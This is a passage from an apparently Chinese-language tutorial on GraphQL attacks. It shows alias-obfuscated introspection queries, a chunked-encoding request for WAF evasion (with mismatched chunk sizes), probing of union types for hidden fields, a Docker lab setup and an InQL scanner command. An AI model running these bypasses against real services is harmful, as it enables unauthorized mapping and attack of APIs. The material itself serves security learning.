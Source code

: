 ```graphql
}
```

### 2.2 高级绕过技术
#### 2.2.1 别名混淆攻击
利用字段别名绕过简单过滤：
```graphql
query {
  alias1: __schema { types { name } }
  alias2: __typename
}
```

#### 2.2.2 分块查询注入
绕过WAF的请求体检测：
```http
POST /graphql HTTP/1.1
Transfer-Encoding: chunked

7\r\n
{__sch
5\r\n
ema}
```

#### 2.2.3 联合类型探测
通过接口实现发现隐藏字段：
```graphql
query {
  __type(name: "Node") {
    possibleTypes {
      name
    }
  }
}
```

## 三、实战攻击流程
### 3.1 实验环境搭建
使用Docker快速部署含漏洞的GraphQL服务：
```bash
docker run -p 5000:5000 apollographql/starwars-server
```

### 3.2 自动化攻击工具
#### 3.2.1 InQL扫描器
生成攻击payload：
```bash
python3 inql -t http://target.com/graphql -o payloads.json
```

